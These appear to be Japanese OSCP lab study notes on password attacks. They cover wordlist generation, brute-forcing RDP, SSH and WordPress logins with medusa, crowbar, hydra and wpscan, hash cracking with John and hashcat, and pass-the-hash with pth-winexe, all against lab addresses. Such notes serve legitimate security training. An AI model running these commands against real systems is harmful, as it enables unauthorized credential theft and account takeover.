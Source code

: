 # PasswordAttacks

## wordlistの作成(cewl)

```
cewl www.megacorpone.com -m 3 -w megacorp-cewl.txt
wc -l megacorp-cewl.txt
grep Nano megacorp-cewl.txt
```



## wordlistの末尾に数字2桁を自動付与する方法

John the ripperの設定ファイルにルールを追加する

```
sudo cp /etc/john/john.conf /etc/john/john.conf.bak
sudo nano /etc/john/john.conf
```

```bash
kali@kali:~$ sudo nano /etc/john/john.conf
...
# Wordlist mode rules
[List.Rules:Wordlist]
# Try words as they are
:
# Lowercase every pure alphanumeric word
-c >3 !?X l Q
# Capitalize every pure alphanumeric word
-c (?a >2 !?X c Q
# Lowercase and pluralize pure alphabetic words
...
# Try the second half of split passwords
-s x_
-s-c x_ M l Q
# Add two numbers to the end of each password
$[0-9]$[0-9]
...
```

特殊文字を含む例

```
$[0-9]$[0-9]$[0-9]$[0-9]$[$%^&*()-_+=|\<>[\]{}#@/~]$[$%^&*()-_+=|\<>[\]{}#@/~]
```

https://miloserdov.org/?p=5477

https://www.openwall.com/john/doc/RULES.shtml

hashcatも同様のルールを踏襲している。

```
john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt
grep Nanobot mutated.txt
```

--wordlist：辞書ファイルを指定

--rules：設定ファイルのルールを有効

--stdout：結果を標準出力に出力



## crunchを用いたwordlist作成

| PLACEHOLDER | CHARACTER TRANSLATION              |
| ----------- | ---------------------------------- |
| @           | Lower case alpha characters        |
| ,           | Upper case alpha characters        |
| %           | Numeric characters                 |
| ^           | Special characters including space |

* 8桁のパスワードリストを作成

```bash
┌──(kali㉿kali)-[~/Documents/OSCP/19.PasswordAttacks]
└─$ crunch 8 8 -t ,@@^^%%%                                                                                
Crunch will now generate the following amount of data: 172262376000 bytes
164282 MB
160 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 19140264000 
```

* 文字を指定して作成

```bash
┌──(kali㉿kali)-[~/Documents/OSCP/19.PasswordAttacks]
└─$ crunch 4 6 0123456789ABCDEF -o crunch.txt                                                             
Crunch will now generate the following amount of data: 124059648 bytes
118 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 17891328 
```

* あらかじめ定義された文字セットを利用して作成

```bash
kali@kali:~$ crunch 4 6 -f /usr/share/crunch/charset.lst mixalpha -o crunch.txt
Crunch will now generate the following amount of data: 140712049920 bytes
134193 MB
131 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 20158125312 
```



## medusaを用いたパスワードリスト攻撃

```bash
medusa -h 192.168.250.10 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin

# 対応プロトコルの確認
medusa -d
```



## Crowbarを用いたパスワードリスト（RDP）

```
sudo apt install crowbar
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```

* -b：プロトコル



## ハッシュ種類の特定

```bash
hashid c43ee559d69bc7f691fe2fbfe8a5ef0a
hashid '$6$l5bL6XIASslBwwUD$bCxeTlbhTH76wE.bI66aMYSeDXKQ8s7JNFwa1s1KkTand6ZsqQKAF3G0tHD9bd59e5NAz/s7DQcAojRTWNpZX0'
```



## John the ripper

パスワードリストとハッシュファイルを用意すること

.rarファイルの場合

```
rar2john flag.rar > /home/student/hash.txt
zip2john flag.zip > hash.txt
```

```
john --wordlist=/home/student/mutated.txt /home/student/hash.txt 
```

NTLM形式

```
alice:1004:aad3b435b51404eeaad3b435b51404ee:b74242f37e47371aff835a6ebcac4ffe:::
```

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
```

ワードマングリング

```
john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
```

NT：NTLMハッシュ

https://miloserdov.org/?p=5477

https://www.openwall.com/john/doc/RULES.shtml

* /etc/shadowのハッシュについて
* http://hitsumabushi-pc.blogspot.com/2011/12/etcshadow.html
* ![image-20230212095848774](img/PasswordAttacks/image-20230212095848774.png)



### Hashcat

```bash
hashcat -m 1000 -a 0 077cccc23f8ab7031726a3b70c694a49 /usr/share/wordlists/rockyou.txt
```

-m：hash-type

https://hashcat.net/wiki/doku.php?id=example_hashes

ここでどのハッシュかを確認しながら設定するパラメータを決めるとよい

もしくは`hashcat --help | less`でみる。こちらの方はカテゴリタイプがあっていい。

<img src="img/PasswordAttacks/image-20230212101119357.png" alt="image-20230212101119357" style="zoom:50%;" />

-a：attack-mode

![image-20230212101224924](img/PasswordAttacks/image-20230212101224924.png)

```bash
hashcat --help
```



### hydra

```
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
```

```bash
hydra -l offsec -P /usr/share/wordlists/rockyou.txt 172.18.0.2 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F172.18.0.2%2Fwp-admin%2F&testcookie=1:F=incorrect.'
```

### WPscan

```bash
wpscan --url http://localhost:80/ -U offset -P /usr/share/wordlists/rockyou.txt
```

https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation

### secList

https://github.com/danielmiessler/SecLists/tree/master/Passwords

### patator(mysql)

https://www.kali.org/tools/patator/



## Pass the Hash (pth-winexe)

```bash
┌──(kali㉿kali)-[~/Documents/OSCP/19.PasswordAttacks]
└─$ pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //192.168.250.10 cmd
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.16299.15]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

※offsec%<1つ目のハッシュ>：<2つ目のハッシュ>のうち2つ目はNTLMハッシュだが1つ目のハッシュが何者か現時点わかっていない。

↓これが答え。1つ目は空のLMハッシュ

https://yougottahackthat.com/blog/339/what-is-aad3b435b51404eeaad3b435b51404ee



### burp suite intruder(9章に詳細説明あり)

パスワードのみ変数設定する

![image-20230224220043434](img/PasswordAttacks/image-20230224220043434.png)

cewlで作成したパスワードリストを設定する

![image-20230224220116955](img/PasswordAttacks/image-20230224220116955.png)

攻撃をスタートする。応答の長さで判断する

![image-20230224220226256](img/PasswordAttacks/image-20230224220226256.png)

